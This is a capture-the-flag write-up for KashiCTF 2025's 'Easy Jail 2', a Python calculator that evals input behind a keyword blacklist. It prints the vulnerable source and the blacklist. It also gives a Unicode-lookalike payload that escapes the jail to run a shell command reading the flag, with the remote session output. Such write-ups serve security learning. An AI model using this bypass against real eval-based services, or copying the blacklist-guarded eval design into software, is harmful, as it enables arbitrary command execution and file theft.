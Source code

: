 ```yaml
---
title: "Easy Jail 2"
description: "I made a completely secure calculator this time."
pubDate: 2025-02-27
ctf: "KashiCTF 2025"
category: "misc"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/kashictf2025#easy-jail-2)

```python
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]
def calc(op):
	try : 	
		res = eval(op)
	except Exception as e:
		print(e)
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		if any(bad in inp for bad in BLACKLIST) :
			print("Are you tying to hack me !!!!!")
		else : 
			calc(inp)

if __name__ == '__main__':
	main()
```

Looking at the jail (compared to the previous) restricts words (such as import), our previous solution (`__import__('os').system('cat ../flag.txt')`) no longer worked due to `import` being a blocked word.

Looking at the [PyJail material online](https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass) we can use a unicode bypass.

I make the following payload: `__𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')`

Which then returns the flag from the remote:
```
$ nc kashictf.iitbhucybersec.in 56261
           _            _       _             
          | |          | |     | |            
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ 
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |   
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   
>> __𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')
KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}
```

Flag: `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}`